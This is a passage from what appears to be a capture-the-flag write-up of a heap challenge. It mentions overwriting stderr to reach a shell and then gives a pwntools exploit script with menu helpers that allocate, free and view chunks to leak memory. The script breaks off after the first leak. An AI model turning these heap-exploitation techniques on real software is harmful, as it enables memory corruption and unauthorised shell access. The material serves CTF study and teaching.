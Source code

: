 we will just overwrite stderr with this and call `exit(0)` and we will get the shell `hehe` .

### `Exploit:`

```python
from pwn import *
context.terminal = ["tmux", "splitw", "-h"]
elf = context.binary = ELF("./main_patched")
rop = ROP(elf)
libc = elf.libc
# libc = ELF("./libc.so.6")
# LEAVE_RET = rop.find_gadget(['leave', 'ret'])[0]
# POP_RDI = rop.find_gadget(['pop rdi', 'ret'])[0]
# POP_RBP = rop.find_gadget(['pop rbp', 'ret'])[0]
# RET = rop.find_gadget(['ret'])[0]

p = remote(sys.argv[1], int(sys.argv[2])
    ) if args.REMOTE else process(["./ld-linux-x86-64.so.2", "--library-path", ".", "./main_patched"], aslr=True)

if args.GDB: gdb.attach(p, """
    brva 0x469b0
    """)

encode = lambda e: e if type(e) == bytes else str(e).encode()
hexleak = lambda l: int(l[:-1] if l[-1] == '\n' else l, 16)
fixleak = lambda l: unpack(l[:-1].ljust(8, b"\x00"))
sl  = lambda d: p.sendline(d)
sa  = lambda m, d: p.sendafter(m, d)
sla = lambda m, d: p.sendlineafter(m, d)
s   = lambda d: p.send(d)
ra  = lambda: p.recvall()
ru  = lambda d: p.recvuntil(d)
rl  = lambda: p.recvline()
rla = lambda m: p.recvlineafter(m)
delta = lambda x, y: (0xffffffffffffffff - x) + y

def menu(opt):
    sla(b">  ",encode(opt))

def create(idx,size):
    menu(1)
    sla(b">  ",encode(idx))
    ru(b"?")
    sla(b">  ",encode(size))
def free(idx):
    menu(2)
    ru(b"dx?")
    sla(b">  ",encode(idx))
def view(idx):
    menu(3)
    ru(b"dx?")
    sla(b">  ",encode(idx))
def edit(idx, content):
    menu(4)
    ru(b"dx?")
    sla(b">  ", encode(idx))
    sl(content)

create(0,0x20)
create(1,0x3ff)
free(1)
view(0)
ru(b" content: ")
```